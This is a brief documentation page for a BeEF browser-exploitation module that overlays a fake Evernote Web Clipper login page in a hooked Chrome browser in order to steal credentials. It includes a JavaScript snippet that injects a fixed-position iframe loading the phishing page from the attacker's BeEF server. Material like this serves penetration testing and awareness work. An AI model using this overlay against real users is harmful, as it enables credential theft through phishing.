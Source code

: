 ## Summary

* **Objective**: Fake EverNote Web Clipper Login
* **Authors**: xntrik
* **Browsers**: Chrome

* [Code](https://github.com/beefproject/beef/tree/master/modules/social_engineering/fake_evernote_clipper)

## Internal Working

This module displays a fake evernote web clipper login page to steal credentials.

```js
beef.dom.createIframe('custom', {'src':beef.net.httpproto+'://'+beef.net.host+':'+beef.net.port+'/ev/login.html','id':'EVIFRAME'}, {'width':'317px','height':'336px','position':'fixed','right':'0px','top':'0px','z-index':beef.dom.getHighestZindex()+1,'border':'0px','overflow':'hidden'});
```


## Feedback

